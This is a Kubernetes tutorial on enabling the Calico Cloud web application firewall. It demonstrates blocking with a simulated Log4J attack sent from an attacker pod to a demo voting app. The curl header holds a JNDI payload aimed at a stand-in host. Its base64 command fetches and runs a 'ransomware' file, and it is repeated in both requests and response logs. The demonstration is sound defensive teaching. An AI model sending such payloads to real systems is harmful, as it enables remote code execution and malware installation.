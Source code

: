 Configuring the Workload-Centric WAF
==============

A web application firewall (WAF) safeguards web applications against a range of application layer attacks, including cross-site scripting (XSS), SQL injection, and cookie poisoning. Given that application attacks are the primary cause of breaches, protecting the HTTP traffic that serves as a gateway to valuable application data is crucial.

## Step 1 - Set up the WAF

Calico Cloud WAF allows you to selectively run service traffic within your cluster and protect intra-cluster traffic from common HTTP-layer attacks. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

1. Deploy the WAF by running the following command:

   ```bash
   kubectl apply -f waf
   ```

2. Remove the ```quarantine``` label from the attacker pod

   ``` bash
   kubectl label pod attacker quarantine-
   ```

3. Execute the bash inside the pod attack in way you can interact with its shell prompt:

   ```kubectl exec attacker -it -- /bin/bash ```

   If you no longer have the attacker pod:

   ```kubectl run attacker --image nicolaka/netshoot -it --rm -- /bin/bash```  

4. Before protecting the service with the WAF, try the following command from the attacker shell. This request will simulate a LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

You should get a response like this:

``` html
> GET / HTTP/1.1
> Host: vote.vote
> User-Agent: curl/8.0.1
> Accept: */*
> X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}
> 
< HTTP/1.1 200 OK
< server: envoy
< date: Mon, 08 Jan 2024 23:25:22 GMT
< content-type: text/html; charset=utf-8
< content-length: 1294
< set-cookie: voter_id=9b62d5409a1658a; Path=/
< x-envoy-upstream-service-time: 9
< 
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Cats vs Dogs!</title>
    <base href="/index.html">
    <meta name = "viewport" content = "width=device-width, initial-scale = 1.0">
    <meta name="keywords" content="docker-compose, docker, stack">
    <meta name="author" content="Tutum dev team">
    <link rel='stylesheet' href="/static/stylesheets/style.css" />
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/font-awesome/4.4.0/css/font-awesome.min.css">
  </head>
  <body>
    <div id="content-container">
      <div id="content-container-center">
        <h3>Cats vs Dogs!</h3>
        <form id="choice" name='form' method="POST" action="/">
          <button id="a" type="submit" name="vote" class="a" value="a">Cats</button>
          <button id="b" type="submit" name="vote" class="b" value="b">Dogs</button>
        </form>
        <div id="tip">
          (Tip: you can change your vote)
        </div>
        <div id="hostname">
          Processed by container ID vote-69dc45b49c-7htfc
        </div>
      </div>
    </div>
    <script src="http://code.jquery.com/jquery-latest.min.js" type="text/javascript"></script>
    <script src="//cdnjs.cloudflare.com/ajax/libs/jquery-cookie/1.4.1/jquery.cookie.js"></script>

    
  </body>
</html>* Connection #0 to host vote.vote left intact
```


5. Now enable the WAF using the following command from your shell (not from the pod attacker).

   ```bash
   kubectl patch applicationlayer tigera-secure --type='merge' -p '{"spec":{"webApplicationFirewall":"Enabled"}}'
   ```

6. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
   'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
   'vote.vote'
   ```

   You will note that the result will be an HTTP 403 - Forbidden. This reponse returns from the WAF.

   ``` html
   > GET / HTTP/1.1
   > Host: vote.vote
   > User-Agent: curl/8.0.1
   > Accept: */*
   > X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}
   > 
   < HTTP/1.1 403 Forbidden
   < date: Mon, 08 Jan 2024 23:27:03 GMT
   < server: envoy
   < content-length: 0
   < 
   * Connection #0 to host vote.vote left intact
   ```

